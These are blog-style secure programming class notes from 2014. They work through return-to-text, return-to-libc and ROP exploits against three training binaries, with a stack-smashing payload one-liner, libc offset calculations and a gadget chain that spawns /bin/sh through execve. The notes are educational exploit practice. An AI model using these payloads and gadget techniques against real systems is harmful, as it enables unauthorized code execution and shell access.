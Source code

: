 ====================
 Secure Programming
====================

:date: 2014-11-04 18:55
:modified: 2014-11-10 16:00
:tags: secprog, ctf, return-oriented-programming
:category: note
:slug: secure-programming-20141104
:authors: Zespre Schmidt
:about_author: Bug generator
:email: starbops@gmail.com
:summary: 2014/11/04 Secure Programming Class Note

foo_4
=====

Training for "return to text" attack.

- binsh: 0x0804a030, but actual address is at 0x08048640.
- system: 0x080483e0

- ``print 'a'*24 + '\xe0\x83\x04\x08' + 'aaaa' + '\x40\x86\x04\x08'``


foo_5
=====

Training for "return to libc" attack.

Notice: libc.so is provided

- ``objdump -d libc.so``
    - 00019970 <__libc_start_main>:
    - 0003fc40 <__libc_system>:
        - offset: 262d0

Example:
Function: libc_start_main's address is :  0xf75f5970
Function: libc_system's address is : 0xf75f5970 + 0x262d0 = 0xf761bc40

- ``objdump -R foo_5``
    - 0804a01c R_386_JUMP_SLOT   __libc_start_main
- 0804a02c <binsh>:
    - actual address: 08048620

foo_6
=====

Training for "return-oriented programming" attack.

- int 0x80
- eax: call what kind of system call. See reference for Linux system call table.
  In this problem we want to call sys_execve, so we should use "11" for eax.
- ebx, ecx: arguments for system call. In this case we put the address of
  "/bin/sh" which is 0x080be568 into ebx and no need of ecx.
- remember the number of pops, smash the stack

Gadget 1
--------

- first gadget: 0x080594ac
- reset eax to 0 by XOR itself
- value for ``pop ebx``: 0x080be568 (/bin/sh)
- return address of first gadget: 0x0805cc5c

.. code-block:: nasm

    80594ac:       31 c0                   xor    eax,eax
    80594ae:       5b                      pop    ebx
    80594af:       c3                      ret

Gadget 2
--------

- second gadget: 0x0805cc5c
- garbage value for ``pop edi``: aaaa
- return address of second gadget: 0x0805cc5c
- repeat 11 times to make eax = 0x0000000b
- last return address of second gadget: 0x0806f0e0

.. code-block:: nasm

    805cc5c:       40                      inc    eax
    805cc5d:       5f                      pop    edi
    805cc5e:       c3                      ret

Gadget 3
--------

third gadget: 0x0806f0e0

.. code-block:: nasm

    806f0e0:       cd 80                   int    0x80
    806f0e2:       c3                      ret

Failed Gadget
-------------

Program received signal SIGSEGV in 0x080db8ce. Still don't know why :(

.. code-block:: nasm

    80db8cd:       40                      inc    eax
    80db8ce:       02 af 0a 0e 0c 41       add    ch,BYTE PTR [edi+0x410c0e0a]
    80db8d4:       c3                      ret

Cannot use ``pop eax`` because 0x0000000b contains 00 which is null. It will
terminate the input string unexpectedly.

.. code-block:: nasm

    80e205d:  58                      pop    eax
    80e205e:  c3                      ret

Reference
=========

- `Linux System Call Table`__

.. __: http://docs.cs.up.ac.za/programming/asm/derick_tut/syscalls.html


